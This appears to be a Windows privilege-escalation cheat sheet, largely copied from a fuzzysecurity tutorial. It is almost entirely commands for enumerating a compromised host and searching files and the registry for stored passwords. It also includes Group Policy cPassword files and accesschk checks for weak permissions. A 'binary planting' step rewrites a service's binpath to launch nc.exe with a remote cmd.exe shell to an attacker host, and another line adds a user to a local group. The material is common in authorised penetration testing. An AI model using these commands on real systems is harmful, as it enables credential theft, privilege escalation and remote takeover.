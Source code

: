 
// What system are we connected to?  
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)  
hostname  
echo %username%

// Get users  
net users  
net user [username]

// Networking stuff  
ipconfig /all  

// Routing tables  
route print  

// ARP cache table for all interfaces  
arp -A  

// Active network connections  
netstat -ano  

// Firewall fun (Win XP SP2+ only)  
netsh firewall show state  
netsh firewall show config  

// Scheduled tasks  
schtasks /query /fo LIST /v  

// List all started services (DISPLAY_NAME)  
net start  

// List running processes  
tasklist  

// Mapping of running processes to started services  
tasklist /SVC  

// List all drivers  
DRIVERQUERY  

// WMIC fun (Win 7/8 -- XP requires admin)  
wmic /?  

// WMIC: check patch level  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

// Search pathces for given patch  
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."  

// AlwaysInstallElevated fun  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Quick wins  
---  

// Quick wins  
dir /s *pass* == *cred* == *vnc* == *.config*  
findstr /si password *.xml *.ini *.txt  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  

// Policy Preference files that may have "cPassword" attribute set:  
Groups.xml: documented password encryption, can be decrypted **SOS**  
Services\Services.xml: Element-Specific Attributes  
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element  
Printers\Printers.xml: SharedPrinter Element  
Drives\Drives.xml: Element-Specific Attributes  
DataSources\DataSources.xml: Element-Specific Attributes  

// Service permissions  
sc query  
sc qc [service_name]  

### Accesschk  
---  

// Accesschk (part of "sysinternals")  
accesschk.exe /accepteula (need to add that if you don't have GUI. maybe only the first time?)  

// List all user permissions  
accesschk.exe “domain\user” -a *  

// List all service permissions for username  
accesschk.exe <username> -c *  

// display permissions on every file  
accesschk.exe /accepteula -s -d IWAM_BOB c:\*.*  
// only Read-Write  
acaccesschk.exe /accepteula -s -d IWAM_BOB c:\*.* | find "RW"   

accesschk.exe -ucqv [service_name]   
accesschk.exe -uwcqv "[Group name you belong to]" *   

// Find all weak folder permissions per drive.  
accesschk.exe -uwdqs Users c:\  
accesschk.exe -uwdqs "[Group name you belong to]" c:\  

// Find all weak file permissions per drive.  
accesschk.exe -uwqs Users c:\*.*  
accesschk.exe -uwqs "[Group name you belong to]" c:\*.*  

// Binary planting  
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"  
sc config [service_name] obj= ".\LocalSystem" password= ""  
sc qc [service_name] (to verify!)  

// add user to local group  
net localgroup "Users" IWAM_BOB /add  

Mostly all of this taken from http://www.fuzzysecurity.com/tutorials/16.html [1]  

Links:
---
\[1]: http://www.fuzzysecurity.com/tutorials/16.html  
\[2]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/  
\[3]: http://www.youtube.com/watch?v=kMG8IsCohHA  
\[4]: http://www.youtube.com/watch?v=_8xJaaQlpBo  
\[5]: http://www.greyhathacker.net/?p=738  
